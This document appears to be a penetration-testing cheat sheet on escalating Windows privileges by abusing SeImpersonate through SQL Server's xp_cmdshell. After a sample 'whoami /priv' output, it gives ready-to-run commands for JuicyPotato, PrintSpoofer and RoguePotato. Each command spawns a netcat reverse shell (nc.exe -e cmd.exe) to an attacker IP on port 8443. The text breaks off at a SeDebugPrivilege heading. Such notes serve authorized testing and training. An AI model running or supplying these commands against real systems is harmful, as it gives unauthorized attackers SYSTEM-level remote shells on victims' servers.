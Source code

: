 #  SeImpersonate
```
xp_cmdshell whoami /priv
```
### Example
```
PRIVILEGES INFORMATION                                                             

----------------------                                                             

NULL                                                                               

Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   

SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   

SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    

SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    

SeImpersonatePrivilege        Impersonate a client after authentication Enabled    

SeCreateGlobalPrivilege       Create global objects                     Enabled    

SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled 
```
To escalate privileges using these rights, let's first download the exploit binary and upload this and nc.exe to the target server. Next, stand up a Netcat listener on port 8443, and execute the command below where -l is the COM server listening port, -p is the program to launch (cmd.exe), -a is the argument passed to cmd.exe, and -t is the createprocess call. Below, we are telling the tool to try both the CreateProcessWithTokenW and CreateProcessAsUser functions, which need SeImpersonate or SeAssignPrimaryToken privileges respectively.
## JuicyPotato
https://github.com/ohpe/juicy-potato

```
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.214 8443 -e cmd.exe" -t *
```
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. 
## PrintSpoofer
https://github.com/itm4n/PrintSpoofer

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
```
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.214 8443 -e cmd"
```
## Rogue Potato
https://github.com/antonioCoco/RoguePotato
```
xp_cmdshell c:\tools\RoguePotato\RoguePotato.exe -r 10.10.14.214 -e "c:\tools\nc.exe 10.10.14.214 8443 -e cmd"
```
# SeDebugPrivilege
Verify permissions in cmd with admin